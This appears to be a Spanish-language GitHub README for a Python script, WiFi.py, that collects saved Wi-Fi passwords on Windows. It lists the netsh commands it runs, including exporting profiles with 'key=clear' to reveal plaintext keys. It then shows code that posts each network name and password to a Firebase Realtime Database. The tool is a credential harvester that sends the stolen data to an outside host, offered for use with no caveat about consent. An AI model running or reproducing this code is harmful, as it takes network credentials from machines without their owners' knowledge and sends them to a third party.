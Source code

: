 # Python-Wi-Fi
Obtener contraseñas Wi-Fi

Al archivo WiFi.py ejecuta los comandos en la consola de windows
```
netsh wlan show profile
netsh wlan show networks
netsh wlan export profile key=clear
```


Lo que deja ver
### las redes wifi _guardadas en el dispositivo_ en el que se ejecuta el programa.
Después crea un archivo .xml por cada wifi, el programa encuentra en ese archivo las redes que tienen la contraseña visible y pasa toda esa informacion a una base de datos de firebase.

```python
db = firebase.FirebaseApplication('REALTIME DATABASE URL')
data = {"Wi-Fi": wifi_names[index],"Password": passwords[index]}
datos = db.post("/wifi's", data)
```
### Ejemplo de URL:
```python
db = firebase.FirebaseApplication('https://miproyecto-default-rtdb.firebaseio.com/')
```
